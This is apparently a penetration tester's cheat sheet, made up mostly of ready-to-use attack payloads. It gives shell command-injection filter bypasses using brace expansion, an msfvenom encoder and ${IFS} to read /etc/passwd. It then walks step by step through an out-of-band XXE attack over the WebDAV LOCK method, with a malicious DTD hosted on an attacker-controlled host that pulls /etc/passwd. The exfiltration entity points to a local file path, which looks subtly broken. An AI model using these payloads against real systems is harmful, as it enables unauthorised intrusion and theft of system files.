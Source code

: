 # shell brace expansion filter bypass
```
echo "which -a curl" | echo "{$(tr -s " " ,)}"
echo "which -a curl" | ./msfvenom -p - -a cmd --platform unix -b " " -e cmd/brace
```
the response will be: {which,-a,curl}

this should bypass some restrictions

## alternate examples space filter evasion/bypass:
```
echo a.|{which,-a,curl}
echo |{which,-a,curl};#.a
cat${IFS}/etc/passwd
```

# Out-Of-Band XXE via HTTP LOCK Method
https://dhiyaneshgeek.github.io/web/security/2021/02/19/exploiting-out-of-band-xxe/

- Find Login Page
- Capture the packets in Burp Suite
- Change the GET or POST to OPTIONS (send it?)
- If not gettting the response wanted try removing the login.php or login.jsp and replace it with test (no extension needed)
- In the RAW responselooking for:
```
Allow: OPTIONS, MKCOL, PUT, LOCK
MS-Author-Via: DAV
```
- If the application has PROPPATCH,PROPFIND,LOCK HTTP methods enabled, it will accept XML as input.
- Try the different metthods looking for xml in the RAW response
- In the Request add this to the bottom:
```
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "<FQDN>"> %xxe; ]>
```
# - Send new Request
- Create file: exploited.dtd hosted on <FQDN>
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'file:///%file;'>">
```
- Change the Request Header to:
```
LOCK /xxxx/test HTTP/1.1
```
- Change the Request Body to include the vulnerable URL:
```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "<FQDN>/exploitd.dtd">
%xxe;
%ext;
]>
<foo><u>
&exfil;
</u></foo>
```
